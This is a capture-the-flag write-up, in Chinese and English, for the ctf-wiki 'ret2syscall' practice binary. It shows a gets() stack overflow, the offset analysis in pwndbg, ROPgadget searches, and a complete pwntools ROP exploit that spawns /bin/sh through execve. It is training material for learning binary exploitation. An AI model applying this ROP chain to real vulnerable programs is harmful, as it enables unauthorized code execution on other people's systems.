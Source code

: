 # ret2syscall

> reference: https://github.com/ctf-wiki/ctf-wiki  Pwn: Linux Pwn: 栈溢出: 基本ROP
>
> writer: github.com/hex-16   data: 2021.3   contact: hexhex16@outlook.com
>
> file: ret2syscall    (download from https://github.com/ctf-wiki/ctf-wiki)
>
> 原始出处未知，非比赛题目(也许)，故所在文件夹命名方式有所区别



# checksec

```bash
$ file ./ret2syscall
./ret2syscall: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=2bff0285c2706a147e7b150493950de98f182b78, with debug_info, not stripped
$ checksec --file=ret2syscall
RELRO          STACK CANARY     NX         PIE     RPATH     RUNPATH     Symbols       FORTIFY Fortified  Fortifiable  FILE
Partial RELRO  No canary found  NX enabled No PIE  No RPATH  No RUNPATH  2255) Symbols   No    0          0            ret2syscall
```

- 32bit，开启NX保护，没有其他保护



# main

- IDA中显示的main函数的伪c代码：

```python
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-64h] BYREF
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```

- 存在危险函数调用`gets`，存在栈溢出漏洞

```assembly
.text:08048E83                 mov     dword ptr [esp], offset aWhatDoYouPlanT ; "What do you plan to do?"
.text:08048E8A                 call    puts            ; Call Procedure
.text:08048E8F                 lea     eax, [esp+28]   ; Load Effective Address
.text:08048E93                 mov     [esp], eax
.text:08048E96                 call    gets            ; gets(&v4); # 调用 gets(&v4); 的地方
.text:08048E9B                 mov     eax, 0
.text:08048EA0                 leave                   ; High Level Procedure Exit
.text:08048EA1                 retn                    ; Return Near from Procedure
```



# gdb：偏移地址分析

```c
$ gdb -q ./ret2syscall
pwndbg: loaded 188 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./ret2syscall...
pwndbg> b *0x08048E96
Breakpoint 1 at 0x8048e96: file rop.c, line 15.
pwndbg> r
Starting program: /home/kali/CTF/pwn/ret2syscall
This time, no system() and NO SHELLCODE!!!
What do you plan to do?

Breakpoint 1, 0x08048e96 in main () at rop.c:15
15      rop.c: No such file or directory.
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────
 EAX  0xffffd3dc —▸ 0x80bce97 (__register_frame_info+39) ◂— add    esp, 0x1c
 EBX  0x80481a8 (_init) ◂— push   ebx
 ECX  0x80eb4d4 (_IO_stdfile_1_lock) ◂— 0x0
 EDX  0x18
 EDI  0x80ea00c (_GLOBAL_OFFSET_TABLE_+12) —▸ 0x8065cb0 (__stpcpy_ssse3) ◂— mov    edx, dword ptr [esp + 4]
 ESI  0x0
 EBP  0xffffd448 —▸ 0x8049630 (__libc_csu_fini) ◂— push   ebx
 ESP  0xffffd3c0 —▸ 0xffffd3dc —▸ 0x80bce97 (__register_frame_info+39) ◂— add    esp, 0x1c
 EIP  0x8048e96 (main+114) ◂— call   0x804f650
───────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────
 ► 0x8048e96 <main+114>    call   gets <gets>
        arg[0]: 0xffffd3dc —▸ 0x80bce97 (__register_frame_info+39) ◂— add    esp, 0x1c
        arg[1]: 0x0
        arg[2]: 0x1
        arg[3]: 0x0

   0x8048e9b <main+119>    mov    eax, 0
   0x8048ea0 <main+124>    leave
   0x8048ea1 <main+125>    ret

   0x8048ea2               nop   ................................
───────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────
00:0000│ esp  0xffffd3c0 —▸ 0xffffd3dc —▸ 0x80bce97 (__register_frame_info+39) ◂— add    esp, 0x1c
01:0004│      0xffffd3c4 ◂— 0x0
02:0008│      0xffffd3c8 ◂— 0x1
03:000c│      0xffffd3cc ◂— 0x0
04:0010│      0xffffd3d0 ◂— 0x1
05:0014│      0xffffd3d4 —▸ 0xffffd4d4 —▸ 0xffffd63f ◂— '/home/kali/CTF/pwn/ret2syscall'
06:0018│      0xffffd3d8 —▸ 0xffffd4dc —▸ 0xffffd65e ◂— 'USER=kali'
07:001c│ eax  0xffffd3dc —▸ 0x80bce97 (__register_frame_info+39) ◂— add    esp, 0x1c
───────────────────────────────────────────────[ BACKTRACE ]────────────────────────
 ► f 0  8048e96 main+114
   f 1  804907a __libc_start_main+458
───────────────────────────────────────────────────────────────────────────────────────────────────
```

- v4地址：`0xffffd3dc`, ebp: `0xffffd448`,  v4 相对于 ebp 的偏移为 108，需要覆盖的返回地址相对于 v4 的偏移为 112



- 由于我们不能直接利用程序中的某一段代码或者自己填写代码来获得 shell，所以我们利用程序中的 gadgets 来获得 shell，而对应的 shell 获取则是利用系统调用

> **gadgets**: 以 `ret` 结尾的指令序列，通过这些指令序列，可修改某些地址的内容，以控制程序的执行流程



# 构造系统调用

- 简单地说，只要我们把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么我们在执行 int 0x80 就可执行对应的系统调用
- 比如说这里我们利用如下系统调用来获取 shell

```cpp
execve("/bin/sh", NULL, NULL);
```

其中，该程序是 32 位，所以我们需要使得

- 系统调用号，即 `eax` 应该为 0xb   （查32bit的系统调用号）
- 第一个参数，即 `ebx` 应该指向 `/bin/sh` 的地址，其实执行 `sh` 的地址也可以。
- 第二个参数，即 `ecx` 应该为 0
- 第三个参数，即 `edx` 应该为 0



## ROPgadget Installation

> https://github.com/JonathanSalwan/ROPgadget
>
> test on Kali 20.04, 2021.3

```bash
sudo pip install capstone
pip install ropgadget
# 添加至$PATH :  /usr/local/lib/python3.9/dist-packages/bin # 路径的可能值
ROPgadget -v
Version:        ROPgadget v6.5
Author:         Jonathan Salwan
Author page:    https://twitter.com/JonathanSalwan
Project page:   http://shell-storm.org/project/ROPgadget/

ROPgadget --help # 选项及使用案例
```





## ROPgadget: 逐步构造



```bash
$ ROPgadget --binary ret2syscall  --only 'pop|ret' | grep 'eax' # 寻找控制 eax 的 gadgets
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret  # 这个是将被利用的 gadget
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

- 以上都可以来控制EAX，选择`0x080bb196 : pop eax ; ret`

```bash
$ ROPgadget --binary ret2syscall  --only 'pop|ret' | grep 'ebx' # 寻找控制 ebx 的 gadgets
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048547 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret # 这里可以控制edx, ecx, ebx 三个
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```

- 选择`0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret`，加上前面找到的控制eax的，所需寄存器都找到了

```bash
$ ROPgadget --binary ret2syscall  --string "/bin/sh" # 获得 /bin/sh 字符串对应的地址
Strings information
============================================================
0x080be408 : /bin/sh
```
- 找到`/bin/sh` 字符串的地址`0x080be408`

```bash
$ ROPgadget --binary ret2syscall  --only "int" # 找 int 0x80 的地址
Gadgets information
============================================================
0x08049421 : int 0x80

Unique gadgets found: 1
```

- 找到`int 0x80`的地址`0x08049421`

# Exploit

```python
from pwn import *

sh = process('./ret2syscall')
context.log_level = "DEBUG"
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(['A' * (108 + 4), pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80]) 
# 0xb: execve的系统调用号 # type(payload) = bytes
sh.sendline(payload)
sh.interactive()
```

